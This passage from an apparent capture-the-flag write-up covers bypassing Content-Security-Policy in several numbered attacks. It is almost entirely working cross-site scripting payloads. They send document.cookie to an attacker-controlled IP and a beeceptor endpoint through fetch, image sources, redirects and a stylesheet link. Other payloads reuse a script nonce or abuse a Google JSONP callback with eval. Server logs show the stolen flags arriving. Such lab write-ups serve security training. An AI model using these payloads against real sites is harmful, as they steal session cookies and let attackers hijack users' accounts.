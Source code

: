 Content-Security-Policy: default-src 'none'; img-src *; style-src 'self'; script-src 'unsafe-inline'

```js
"/><script>fetch(`http://10.11.43.119:8080/${document.cookie}`);</script>

"/><script>new Image().src="http://10.11.43.119:8080" + document.cookie;</script>
<script>(new Image()).src = `http://10.11.43.119:8080/${encodeURIComponent(document.cookie)}`</script>
```
```bash
10.11.43.119 - - [21/Aug/2021 12:50:36] "GET / HTTP/1.1" 200 -
10.10.120.18 - - [21/Aug/2021 12:50:54] code 404, message File not found
10.10.120.18 - - [21/Aug/2021 12:50:54] "GET /flag%3DTHM%7BTh4ts_N0t_4n_1m4ge!!%7D HTTP/1.1" 404 -
```

Flag : THM{Th4ts_N0t_4n_1m4ge!!}


# Attack 4

Content-Security-Policy: default-src 'none'; style-src * 'self'; script-src 'nonce-abcdef'


```js
<script nonce=abcdef>alert(1)</script>

<script nonce=abcdef>fetch(`http://10.11.43.119:8080/${document.cookie}`)</script>
<script nonce="abcdef">document.location='http://10.11.43.119:8080/${document.cookie};</script>

<link id="demo" rel=stylesheet href="" /><script nonce="abcdef">document.getElementById('demo').href="http://10.11.43.119:8080/" + document.cookie;</script>

```
```bash
10.11.43.119 - - [21/Aug/2021 19:13:23] "GET / HTTP/1.1" 200 -
10.10.113.82 - - [21/Aug/2021 19:13:30] code 404, message File not found
10.10.113.82 - - [21/Aug/2021 19:13:30] "GET /flag=THM%7BStyle_Y0ur_W3bs1teS%7D HTTP/1.1" 404 -
```

Flag : THM{Style_Y0ur_W3bs1teS}

# Attack 5 

Content-Security-Policy: default-src 'none'; style-src 'self'; img-src *; script-src 'unsafe-eval' *.google.com

```js

<script src="//accounts.google.com/o/oauth2/revoke?callback=eval(document.location='https://voids.free.beeceptor.com'.concat(document.cookie))"></script>

<script src="//accounts.google.com/o/oauth2/revoke?callback=eval(document.location='https://voids.free.beeceptor.com/'.concat(document.cookie))"></script>

```
Flag : THM{N0_JSONP_D0mains_Plz}
